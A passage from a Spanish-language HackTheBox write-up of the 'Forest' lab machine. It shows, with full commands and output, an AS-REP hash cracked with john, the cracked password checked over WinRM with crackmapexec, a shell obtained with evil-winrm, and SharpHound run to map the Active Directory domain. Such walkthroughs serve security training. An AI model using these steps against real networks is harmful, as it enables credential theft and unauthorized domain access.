 ```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2023-02-21 18:40) 0.3039g/s 1241Kp/s 1241Kc/s 1241KC/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

La contraseña es "s3rvice" vamos a ver si es valida para autenticarnos con winrm.

```bash
❯ crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

### Enumeración del Sistema

¡Podemos autenticarnos! Usare evil-winrm para tener una "PowerShell".

```powershell
❯ evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
Evil-WinRM shell v2.4
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

Para enumerar el dominio en busqueda de escalar privilegios usaré BloodHound, lo primero que haremos será subir el script de powershell "SharpHound.ps1" que recopilará información sobre el dominio y lo exportará a un archivo zip, posteriormente este .zip se lo pasaramos a BloodHoundAD para que nos monte un gráfico.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload SharpHound.ps1
```

Importamos el modulo y llamamos a la función Invoke-BloodHound que empiece a recolectar información.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectAll
```

Se nos creará un .zip que nos descargaremos a nuestra máquina.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20230221101940_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Documents\20230221101940_BloodHound.zip to 20230221101940_BloodHound.zip
```
